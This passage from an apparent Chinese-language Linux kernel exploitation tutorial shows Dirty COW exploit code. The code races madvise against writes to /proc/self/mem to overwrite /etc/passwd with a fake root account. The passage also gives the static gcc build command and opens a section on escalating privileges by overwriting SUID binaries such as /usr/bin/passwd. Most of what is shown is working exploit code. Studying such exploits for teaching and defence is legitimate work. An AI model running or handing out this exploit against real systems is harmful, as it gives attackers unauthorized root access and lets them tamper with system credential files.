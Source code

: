 ```c
        hacker.shell);

    
    passwd_fd = open("/etc/passwd", O_RDONLY);
    printf("fd of /etc/passwd: %d\n", passwd_fd);

    fstat(passwd_fd, &passwd_st); // get /etc/passwd file length
    map = mmap(NULL, passwd_st.st_size, PROT_READ, MAP_PRIVATE, passwd_fd, 0);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x10000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, fake_user, fake_user_length);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x10000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
}


```

crypt() 为非标准库函数，编译的时候需要加上 `-lcrypt` 参数

```shell
gcc dirty.c -o dirty -static -lpthread -lcrypt
```

#### 二、SUID 提权

既然有了任意文件读写，那么我们可以选择一些具有特殊权限的文件（SUID/SGID，即被设定好其执行用户（组）权限的一些文件，如 `/usr/bin/passwd`），将其改写为我们构造好的特定代码，我们在执行时就能完成提权
